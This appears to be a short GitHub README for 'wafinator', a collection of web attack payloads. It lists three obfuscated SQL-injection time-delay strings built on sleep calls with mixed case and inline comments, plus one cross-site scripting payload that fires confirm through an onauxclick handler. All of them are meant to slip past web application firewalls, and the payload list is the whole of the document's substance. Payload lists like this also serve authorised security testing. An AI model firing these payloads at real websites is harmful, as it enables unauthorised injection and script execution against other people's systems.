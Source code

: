 # wafinator
Collection of payloads from everywhere. The maintainer is glad to *sec community for sharing their paylaods.


-SleEp(0x2);--<br><br>
-slEEp("5A");--<br><br>
-SleEP/\*(\*/(5);--<br><br>
J<d3v/onauxclick=[2].some(confirm)>O<br><br>
